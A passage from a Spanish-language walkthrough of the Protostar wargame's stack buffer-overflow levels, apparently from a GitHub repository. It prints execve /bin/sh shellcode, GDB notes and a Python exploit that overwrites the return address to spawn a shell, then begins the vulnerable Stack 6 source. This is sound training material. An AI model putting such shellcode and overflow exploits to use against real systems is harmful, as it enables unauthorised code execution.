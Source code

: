 Por ello, se especifica a continuación un shellcode que podemos utilizar:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```
GDB:

```
disas main
breakpoint en el ret

# Mirar en qué dirección estás escribiendo el bof, modificar el eip y ahí poner un NOP slide
# con la shell
```
Y finalmente el exploit en Python:

```
import struct

shellcode = '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'
ret_address = '\xbc\xf7\xff\xbf' 

buffer = 'A'*76
nops = '\x90'*100

payload = buffer + ret_address + nops + shellcode

print(payload)
```

```
python exploit.py | /opt/protostar/bin/stack4
```

## Stack 6
Código fuente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
```